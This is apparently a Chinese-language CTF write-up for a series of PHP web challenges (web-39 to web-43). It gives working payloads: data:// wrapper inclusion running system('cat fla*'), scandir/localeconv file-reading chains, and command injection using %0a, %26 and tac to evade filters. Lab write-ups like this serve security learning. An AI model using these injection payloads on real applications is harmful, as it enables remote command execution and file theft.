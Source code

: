 在上题的基础上过滤了php和file，我们依旧使用上一题的payload就能得到flag

![image-20240424194006862](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241940888.png)

------

### web-39

查看源码，发现$c后面拼接了.php，拼接的php可以不用管,include只会处理内部的内容

```
payload：?c=data://text/plain,<?php%20system("cat%20fla*");?>
```

------

### web-40（暂时）

不懂

payload：echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));

payload：show_source(next(array_reverse(scandir(pos(localeconv()))))); 

------

### web-41（暂时）

用脚本写，暂时不会

https://blog.csdn.net/miuzzx/article/details/108569080

------

### web-42

查看源码，发现eval里有个/dev/null 2>&1

/dev/null 2>&1：让所有的输出流（包括错误的和正确的）都定向到空设备丢弃

所以我们不能让后面执行，需要把后面截断，我们使用**%0a(换行),%26（&）,||**

```
payload：?c=cat flag.php %26
```

![image-20240424205927150](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404242059179.png)

------

### web-43

相对上一题，过滤了cat，我们使用tac来代替cat，

```
payload：?c=tac flag.php %26
```
